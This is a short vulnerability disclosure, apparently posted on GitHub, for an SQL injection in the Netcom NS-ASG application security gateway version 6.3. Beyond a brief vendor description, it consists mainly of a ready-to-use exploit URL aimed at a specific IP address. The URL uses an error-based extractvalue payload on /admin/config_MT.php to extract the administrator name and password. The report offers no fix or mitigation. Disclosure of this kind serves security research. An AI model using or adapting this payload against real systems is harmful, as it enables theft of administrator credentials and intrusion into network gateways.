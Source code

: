 Beijing Wangkang Technology Co., Ltd. is a leading provider of network application management equipment in China, focusing on the latest trend research and analysis in the field of network application management. It provides users with advanced network application management technology, products, and solutions, aiming to help users achieve the goal of "using the internet well" in network management.

There is an SQL injection vulnerability in the Netcom NS-ASG application security gateway. Attackers exploit vulnerabilities to cause harm to servers.

official： https://www.netentsec.com/

version:6.3

Vulnerability Path ： /admin/config_MT.php

```
https://1.85.53.53/admin/config_MT.php?action=delete&Mid=1%20and%20extractvalue(0x1,%20concat(0x1,%20(select%20concat(adminname,%200x7e,%20passwd)%20from%20Admin%20limit%201)))
```
<img width="539" alt="image" src="https://github.com/flyyue2001/cve/assets/88701694/0ac0070b-1237-4932-926d-4c01a8e9e423">
